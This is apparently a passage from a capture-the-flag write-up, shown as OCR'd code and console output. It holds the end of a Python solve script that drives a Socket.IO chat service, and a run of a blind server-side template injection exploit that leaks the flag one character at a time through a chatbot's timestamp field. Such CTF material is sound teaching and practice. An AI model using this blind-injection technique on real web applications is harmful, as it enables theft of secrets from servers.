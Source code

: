```python
            },uname))
    try:
        print("[*] Connecting to socket.io")
        sio.connect(target, headers={"Cookie": cookie})
        sio.wait()
    except Exception as e:
        print("Socket.IO connection error:", e)
        time.sleep(1)
        print("[*] Reconnecting...")
    finally:
        sio.disconnect()
        sio.shutdown()
```

```
❯ python solve.py
[*] Logged in successfully
[*] Connecting to socket.io
[*] Connected to server
[*] Payload sent
{'username': 'Korosensei', 'text': "Nurufufufu~ Welcome kumo60974! I am your beloved octopus teacher, Korosensei! I can taste-test your templates for any dangerous ingredients. Please share your template with me, and I'll evaluate it with my super-speed analysis! Nurufufufu~", 'avatar': '/images/korosensei.png', 'timestamp': '2025-08-24T02:05:27.870Z'}
{'username': 'Korosensei', 'text': 'Your template is safe!', 'avatar': '/images/korosensei.png', 'timestamp': 'kumo leaks flag D\n'}
[*] Exploit likely worked
[+] Flag so far: D
{'username': 'Korosensei', 'text': 'Your template is safe!', 'avatar': '/images/korosensei.png', 'timestamp': 'kumo leaks flag D\n'}
[*] Exploit likely worked
[+] Flag so far: DD
{'username': 'Korosensei', 'text': 'Your template is safe!', 'avatar': '/images/korosensei.png', 'timestamp': 'kumo leaks flag C\n'}
[*] Exploit likely worked
[+] Flag so far: DDC
{'username': 'Korosensei', 'text': 'Your template is safe!', 'avatar': '/images/korosensei.png', 'timestamp': 'kumo leaks flag {\n'}
[*] Exploit likely worked
[+] Flag so far: DDC{

...

[+] Flag so far: DDC{Th3_F!rs7_7ImE_You_sEE_B1IND_5sTi?_66b83a239b48ec6663643c3970b39
{'username': 'Korosensei', 'text': 'Your template is safe!', 'avatar': '/images/korosensei.png', 'timestamp': 'kumo leaks flag d\n'}
[*] Exploit likely worked
[+] Flag so far: DDC{Th3_F!rs7_7ImE_You_sEE_B1IND_5sTi?_66b83a239b48ec6663643c3970b39d
{'username': 'Korosensei', 'text': 'Your template is safe!', 'avatar': '/images/korosensei.png', 'timestamp': 'kumo leaks flag 7\n'}
[*] Exploit likely worked
[+] Flag so far: DDC{Th3_F!rs7_7ImE_You_sEE_B1IND_5sTi?_66b83a239b48ec6663643c3970b39d7
{'username': 'Korosensei', 'text': 'Your template is safe!', 'avatar': '/images/korosensei.png', 'timestamp': 'kumo leaks flag a\n'}
[*] Exploit likely worked
[+] Flag so far: DDC{Th3_F!rs7_7ImE_You_sEE_B1IND_5sTi?_66b83a239b48ec6663643c3970b39d7a
[*] Disconnected from server
[*] Logged in successfully
[*] Connecting to socket.io
[*] Connected to server
[*] Payload sent
```